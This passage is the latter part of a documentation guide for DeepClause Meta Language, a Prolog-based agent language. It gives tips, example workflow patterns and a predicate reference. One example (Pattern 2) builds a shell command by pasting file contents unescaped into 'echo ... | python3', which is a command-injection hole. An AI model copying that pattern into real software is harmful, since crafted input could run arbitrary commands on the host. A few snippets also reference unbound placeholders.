    atom_json_dict(StatsJSON, Stats, []),
    
    % Present findings
    end_thinking,
    chat("Explain these statistics: {StatsJSON}").
```

#### ✅ Combine LLM with Logic

```prolog
% Use LLM for extraction
extract_entities(Text, Entities) :- 
    @("Extract named entities from Text as a list").

% Use Prolog for logic
agent_main :-
    article_text(Article),
    extract_entities(Article, Entities),
    
    % Logical filtering in Prolog
    include(is_person, Entities, People),
    include(is_organization, Entities, Orgs),
    
    % LLM for synthesis
    format(string(Prompt), "Analyze relationships between people ~w and organizations ~w", [People, Orgs]),
    chat(Prompt, Analysis),
    
    answer(Analysis).
```

### 3. Performance Tips

- **Minimize LLM calls**: Cache results, combine queries
- **Use findall sparingly**: Can be expensive for large result sets
- **Leverage Prolog's strengths**: Pattern matching, backtracking, constraint solving
- **Use VM for heavy computation**: Don't implement complex algorithms in Prolog

### 4. Debugging Tips

```prolog
agent_main :-
    log("Starting execution"),
    
    tool(websearch("query"), Results),
    log("Search complete, result length: {L}"),
    
    % Debug output
    yield(debug=Results),
    
    process(Results).
```

**Use**:
- `log/1` for progress tracking
- `yield(Value)` for inspecting values
- Multiple branches for robustness

### 5. Security Considerations

- **File access**: Limited to workspace directory (good!)
- **VM execution**: Be cautious with user input in commands
- **Tool calls**: Validate inputs before calling external tools
- **LLM outputs**: Verify and validate before using in critical logic

---

## Example Patterns

### Pattern 1: Research and Analysis

```prolog
agent_main :-
    % 1. Search
    tool(google_scholar_search("topic", 10), Papers),
    
    % 2. Extract key info
    extract_paper_titles(Papers, Titles),
    
    % 3. Deep analysis
    analyze_trends(Titles, Trends),
    
    % 4. Present
    end_thinking,
    system("You are a research analyst"),
    observation("Found these trends: {Trends}"),
    chat("Provide comprehensive analysis").

extract_paper_titles(JSON, Titles) :- 
    @("Extract list of paper titles from JSON").

analyze_trends(Titles, Trends) :- 
    @("Identify research trends from list of Titles").
```

### Pattern 2: Data Processing Pipeline

```prolog
agent_main :-
    % Input
    param("input:file", "Select data file", Input),
    
    % Process
    read_file_to_string(Input, Raw, []),
    clean_data(Raw, Clean),
    
    % Analyze in VM
    Script = {|string||
import json
data = json.loads(input())
result = analyze(data)
print(json.dumps(result))
|},
    open("analyze.py", write, S),
    write(S, Script),
    close(S),
    
    format(string(Cmd), "echo '~w' | python3 analyze.py", [Clean]),
    tool(vm_exec(Cmd), ResultJSON),
    
    % Present
    format_results(ResultJSON, Report),
    answer(Report).
```

### Pattern 3: Interactive Workflow

```prolog
agent_main :-
    wait_for_input("What topic interests you?", Topic),
    
    tool(websearch(Topic), Info),
    
    extract_key_points(Info, Points),
    
    format(string(Q), "Here are key points: {Points}. Want more details?", []),
    wait_for_input(Q, Response),
    
    (Response == "yes" ->
        provide_details(Points)
    ;
        answer("Thank you!")
    ).
```

### Pattern 4: Multi-step Reasoning

```prolog
agent_main :-
    log("Step 1: Gathering information"),
    collect_data(Data),
    
    log("Step 2: Analyzing patterns"),
    find_patterns(Data, Patterns),
    
    log("Step 3: Generating hypotheses"),
    generate_hypotheses(Patterns, Hypotheses),
    
    log("Step 4: Testing hypotheses"),
    test_hypotheses(Hypotheses, Results),
    
    log("Step 5: Drawing conclusions"),
    end_thinking,
    synthesize_conclusion(Results, Conclusion),
    answer(Conclusion).
```

---

## Conclusion

DeepClause Meta Language (DML) combines the logical reasoning power of Prolog with modern AI capabilities, enabling developers to build sophisticated AI-powered workflows. Key strengths:

- **Declarative logic** for clear reasoning
- **Seamless LLM integration** via special predicates
- **Tool ecosystem** for external capabilities
- **Cooperative execution** for responsive UIs
- **Type-rich parameters** for user interaction
- **VM integration** for complex computations

Use DML when you need to combine symbolic reasoning, AI language understanding, and tool orchestration in a unified framework.

---

## Appendix: Quick Reference

### Core Predicates

| Category | Predicate | Purpose |
|----------|-----------|---------|
| LLM | `chat(Instruction)` | Stream LLM response |
| LLM | `chat(Instruction, Output)` | Capture LLM response |
| LLM | `generate(Prompt, Output)` | Non-streaming generation |
| LLM | `@("instruction")` | LLM-powered function |
| Tools | `tool(Goal, Output)` | Execute external tool |
| Output | `yield(Text)` | Stream output to user |
| Output | `answer(Text)` | Send final answer |
| Output | `log(Message)` | Log message |
| Output | `end_thinking` | Mark end of reasoning |
| Memory | `system(Text)` | Add system message |
| Memory | `user(Text)` | Add user message |
| Memory | `observation(Text)` | Add observation |
| Input | `wait_for_input(Prompt, Input)` | Request user input |
| Input | `param(Key, Desc, Value)` | Define parameter |
| Files | `open(File, Mode, Stream)` | Open file |
| Files | `close(Stream)` | Close file |
| Files | `read_file_to_string(File, Content, Opts)` | Read file |

### Standard Prolog

| Category | Examples |
|----------|----------|
| Lists | `append/3`, `member/2`, `length/2`, `reverse/2`, `nth0/3` |
| Strings | `format/3`, `atomic_list_concat/3`, `atom_string/2` |
| Arithmetic | `is/2`, `>/2`, `</2`, `>=/2`, `=</2` |
| Control | `findall/3`, `maplist/3`, `include/3`, `foldl/4` |
| Meta | `call/1`, `once/1`, `\+/1` |

### File Formats in Workspace

- `.dml` - DML source files
- `.pl` - Prolog fact files (load with `consult/1`)
- `.txt`, `.csv`, `.json` - Data files
- `.py` - Python scripts (execute with `vm_exec`)
- `.png`, `.jpg`, `.svg` - Images (reference in markdown)

---

*Generated for DeepClause Meta Language v0.1*
*Last updated: November 2025*
